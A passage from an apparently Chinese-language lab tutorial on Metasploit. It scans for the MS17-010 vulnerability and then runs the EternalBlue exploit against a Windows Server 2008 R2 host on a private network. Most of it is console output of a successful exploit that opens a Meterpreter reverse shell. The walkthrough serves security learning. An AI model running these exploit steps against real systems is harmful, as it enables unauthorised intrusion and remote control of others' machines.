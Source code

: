 ```shell
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[-] 192.168.43.76:445     - Rex::ConnectionRefused: The connection was refused by the remote host (192.168.43.76:445).
[+] 192.168.43.62:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7600 x64 (64-bit)
```

这就是找到了，这时候切到exp模块

 `use 0`

```shell
msf6 auxiliary(scanner/smb/smb_ms17_010) > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
```

 这里的设置和当时设置监听模块差不多，可以通过opt看一下本地ip是否正确，然后配置被攻击设备的ip

`set rhosts 192.168.43.62`

run

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.43.155:4444 
[*] 192.168.43.62:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.43.62:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7600 x64 (64-bit)
[*] 192.168.43.62:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.43.62:445 - The target is vulnerable.
[*] 192.168.43.62:445 - Connecting to target for exploitation.
[+] 192.168.43.62:445 - Connection established for exploitation.
[+] 192.168.43.62:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.43.62:445 - CORE raw buffer dump (36 bytes)
[*] 192.168.43.62:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 192.168.43.62:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
[*] 192.168.43.62:445 - 0x00000020  37 36 30 30                                      7600      
[+] 192.168.43.62:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.43.62:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.43.62:445 - Sending all but last fragment of exploit packet
[*] 192.168.43.62:445 - Starting non-paged pool grooming
[+] 192.168.43.62:445 - Sending SMBv2 buffers
[+] 192.168.43.62:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.43.62:445 - Sending final SMBv2 buffers.
[*] 192.168.43.62:445 - Sending last fragment of exploit packet!
[*] 192.168.43.62:445 - Receiving response from exploit packet
[+] 192.168.43.62:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.43.62:445 - Sending egg to corrupted connection.
[*] 192.168.43.62:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 192.168.43.62
[*] Meterpreter session 2 opened (192.168.43.155:4444 -> 192.168.43.62:49158) at 2023-12-07 19:55:14 +0800
[+] 192.168.43.62:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.43.62:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.43.62:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > 
```
